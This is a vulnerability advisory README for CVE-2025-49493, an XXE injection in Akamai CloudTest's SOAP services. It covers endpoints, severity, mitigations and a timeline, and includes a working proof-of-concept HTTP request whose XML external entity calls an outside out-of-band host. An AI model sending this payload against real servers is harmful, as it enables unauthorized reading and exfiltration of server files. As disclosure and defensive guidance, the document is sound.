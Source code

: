 # CVE-2025-49493 Akamai CloudTest - XXE Injection ☁️

## 📄 Description:

Akamai CloudTest before 60 2025.06.02 (12988) allows file inclusion via XML External Entity (XXE) injection.

---

## 🛠️ Basic Information:

* **Affected Product**: Akamai CloudTest (prior to version 60 — build 12988, released June 2025)
* **Vulnerability Type**: XML External Entity Injection (XXE)
* **CWE**: CWE‑611 – Improper Restriction of XML External Entity
* **Impact**: Remote attackers can send crafted XML to read local files on the server without authentication or user interaction.

---

## 🔍 Technical Details:

* Vulnerable SOAP endpoints include:

```
/concerto/services/RepositoryService
/concerto/services/CollectorService
/concerto/services/Concerto
/concerto/services/SampleService
```

```
POST //concerto/services/RepositoryService HTTP/1.1
Host: readacted.com
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138", "Brave";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (******; **** *** ** X 10_15_7) **********/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 *****/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 610

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soapenv:Envelope [
  <!ENTITY xxe SYSTEM "http://b6it5hei11vmt9as2lbg98h4gvmrahy6.oastify.com">
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:rep="http://example.com/services/repository">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:getUIBundleObjectXml>
         <rep:uiBundleRequestXml>&xxe;</rep:uiBundleRequestXml>
      </rep:getUIBundleObjectXml>
   </soapenv:Body>
</soapenv:Envelope>
```

![bug1](https://github.com/user-attachments/assets/dc217ae4-b689-49b9-a5a6-499b118562d0)


* The flaw allows attackers to inject external DTDs (Document Type Definitions) and exploit XML parsers to leak local file content.
* Techniques such as error-based parsing and out-of-band (OOB) data exfiltration can be used.

---

## 📊 Severity:

* **CVSS v3.1 Score**: 5.8 (Medium 🟠)
* **Attack Vector**: Network
* **Privileges Required**: None
* **User Interaction**: None
* **Impact**: Confidentiality breach (e.g., reading `/etc/passwd`)

---

## ✅ Mitigation Steps:

1. **Update to CloudTest version 60 or later**, where external entity parsing is disabled by default.
2. **Disable DTD processing** in XML parsers manually if an upgrade isn't possible.
3. **Restrict network access** to CloudTest instances (e.g., via firewalls and IP allowlists).
4. **Monitor XML traffic** for anomalies or known exploit patterns.
5. **Limit file access permissions** for the CloudTest service to reduce impact.
6. **Deploy a WAF (Web Application Firewall)** with rules against XXE attacks.

---

## 📅 Timeline:

* Vulnerability discovered: June 2025
* Fix released: Early July 2025
* Proof of Concept (PoC) exists publicly.
* No confirmed mass exploitation as of now.

---

### ✅ Summary Table:

| Field            | Details                             |
| ---------------- | ----------------------------------- |
| Product          | Akamai CloudTest < v60              |
| CVSS Score       | 5.8 (Medium)                        |
| Exploitable      | Remotely, no auth required          |
| Affected Feature | XML SOAP services                   |
| Attack Technique | XXE via external DTDs               |
| Patch            | Available in version 60 (June 2025) |
| Risk             | Disclosure of sensitive files       |

---

## ⚠️ Disclaimer:

This PoC is provided for educational and research purposes only. Running this on any system without permission is illegal and unethical !!!

